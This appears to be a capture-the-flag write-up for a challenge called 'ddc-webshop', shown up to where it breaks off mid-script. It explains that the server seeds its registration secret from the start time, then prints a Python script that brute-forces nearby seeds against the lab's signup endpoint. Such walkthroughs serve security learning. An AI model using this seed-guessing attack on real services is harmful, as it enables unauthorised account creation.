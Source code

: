 # ddc-webshop

Proposed difficulty: `Something`

6 solves

```text
Grundet stor efterspørgsel har vi i år valgt at lave en DDC webshop! Her kan du købe nice merchandise, VIP-biletter til DDC finalen, privat lektiehjælp af Jens Myrup og meget meget mere!

HINT: Flaget findes i /home/???/flag.txt
```

Attachments:

```text
Archive:  challenge.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     6357  2023-12-16 12:07   app.py
---------                     -------
     6357                     1 file
```

# Solution

## Registering a user

To register our user, we will need to know the registration secret.

The registration secret is generated when the server starts with the following code:

```py
datetime = int(time.time())
rseed = random.seed(datetime)
register_secret = ''.join(f'{byte:02x}' for byte in bytes(random.randint(0, 255) for _ in range(16)))
```

I wrote a small python script to try each random seed from a given datetime, until it finds the right registration secret:

```py
import requests
import random
import time

start = int(time.time()) - 50
end = start + 100

URL = "http://ddcwebshop.hkn/signup?"

def gen_secret(i):
    random.seed(i)
    return ''.join(f'{byte:02x}' for byte in bytes(random.randint(0, 255) for _ in range(16)))

for i in range(start, end):
    secret = gen_secret(i)
    r = requests.post(
        URL,
        data={
            "username": "",
            "email": "",
            "password": "",
            "secret": secret
        }
```